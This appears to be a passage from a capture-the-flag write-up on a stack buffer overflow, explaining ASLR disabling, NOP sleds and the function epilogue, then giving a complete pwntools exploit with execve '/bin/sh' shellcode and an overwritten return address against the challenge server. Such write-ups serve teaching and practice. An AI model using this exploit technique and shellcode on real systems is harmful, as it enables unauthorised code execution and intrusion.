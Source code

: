 `setarch $(uname -m) --addr-no-randomize` will execute the next parameter
passed to it without ASLR.

Traditionally, we'd setup a NOP sled just in case the stack is a little off,
even with ASLR disabled, its possible for other factors to have the stack not
exactly where expected (however for this challenge it appears to be as
predictable as it _gets_).

Before doing the math and building the longest possible sled we need to
consider the following just before the return is called:

```assembly  
001014af 48 83 c4 78     ADD        RSP,0x78  
001014b3 0f b6 c0        MOVZX      EAX,AL  
001014b6 5d              POP        RBP  
001014b7 41 5c           POP        R12  
```

The stack pointer is moved to `+0x0078` (see stack above), then the next two
values popped into `RBP` and `R12`.  So unless you want to lose the end of
your payload, say clear of the 16 bytes just before the return address.

## Exploit

```python  
#!/usr/bin/env python3

from pwn import *

context.log_level = 'INFO'  
context.log_file = 'remote.log'  
p = remote('chal.cybersecurityrumble.de', 1990)  
stack = 0x00007fffffffe738

# http://shell-storm.org/shellcode/files/shellcode-905.php  
shellcode  = b'\x6a\x42\x58\xfe\xc4\x48\x99\x52'  
shellcode += b'\x48\xbf\x2f\x62\x69\x6e\x2f\x2f'  
shellcode += b'\x73\x68\x57\x54\x5e\x49\x89\xd0'  
shellcode += b'\x49\x89\xd2\x0f\x05'  
shellcode += (8 - (len(shellcode) % 8)) *  b'\x90'

payload  = b''  
payload += 6 * b'A'  
payload += 2 * b'\0'  
payload += (0x78 - 8 - 16 - len(shellcode)) * b'\x90'  
payload += shellcode  
payload += (0x78 - len(payload)) * b'\x90'  
payload += p64(stack)

p.sendlineafter('return.\n',payload)  
p.interactive()  
```

`stack` is from the analysis above.
